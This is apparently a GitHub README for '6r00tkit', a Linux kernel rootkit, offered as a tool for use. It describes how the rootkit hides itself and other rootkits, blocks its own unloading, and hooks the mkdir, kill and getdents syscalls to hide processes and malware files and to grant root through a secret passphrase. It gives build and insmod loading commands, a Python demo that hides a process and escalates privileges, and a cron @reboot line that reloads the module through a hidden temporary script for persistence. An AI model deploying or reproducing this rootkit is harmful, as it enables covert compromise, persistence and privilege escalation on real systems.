 # 6r00tkit

## Description

6r00tkit (Grootkit) is a rootkit used to hide and protect itself and other rootkits, to hide malware and persistence file for 6r00tkit, to hide process and to set root permissions on a process (privilege escalation).

How it's works:
 - Remove itself and other rootkit from the kernel modules list
 - Use itself and other rootkit to block an unload
 - Hooks 4 syscalls
    - `mkdir`, to get the root permissions for any process you may use the passphrase in `mkdir` syscall (default passphrase is `1 4m 6r00t`)
    - `kill`, to get a hidden process you may use the special signal in `kill` syscall (default is `14600` - numbers in `1 4m 6r00t`)
    - `getdents64` to hide process and files (process directory in `/proc` or customizable malware file and directory)
    - `getdents` to hide process and files (process directory in `/proc` or customizable malware file and directory)

## Requirements

 - Linux system
 - Root permissions to load the module

## Build

```bash
wget https://github.com/mauricelambert/6r00tkit/archive/refs/heads/main.zip
unzip main.zip
cd 6r00tkit-main/
bash compile.sh
```

## Load

### Default parameters

```bash
sudo insmod ./6r00tkit.ko
```

### Add parameters

```bash
sudo insmod ./6r00tkit.ko modulename="other_rootkit" passphrase="s3cr3t" killcode=666 rootkitdirectory="/rootkit/directory" rootkitfile="rootkit.ko" persistencedirectory="/persistence/directory" persistencefile="mycron" malwarefile="my_malware_filename.malware"
```

## Usages

You can use it like the following with python (or use it with any program and script, you only need to call specific syscalls with specific values):

```python
from os import mkdir, getuid, kill, listdir, getpid, system

print("PID:", getpid())
print("\n".join(listdir("/proc/")))
system("ps aux | grep python")
kill(getpid(), 14600) # i use the default signal, you should use your own signal if added as parameters on load
print("\n".join(listdir("/proc/")))
system("ps aux | grep python")

print("Current UID:", getuid())
system("whoami")
mkdir("1 4m 6r00t") # i use the default passphrase, you should use your own passphrase if added as parameters on load
print("Current UID:", getuid())
system("whoami")
```

## Persistence

You can reload the kernel module on reboot with a single cronjob, write the following content in the filename `/etc/cron.d/6r00tkit`:

```cron
@reboot root /bin/bash -c 'echo "/bin/sleep 10; /sbin/insmod /path/to/6r00tkit.ko" > /tmp/.placeholder; /bin/bash /tmp/.placeholder; /bin/rm -f /tmp/.placeholder'
```

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).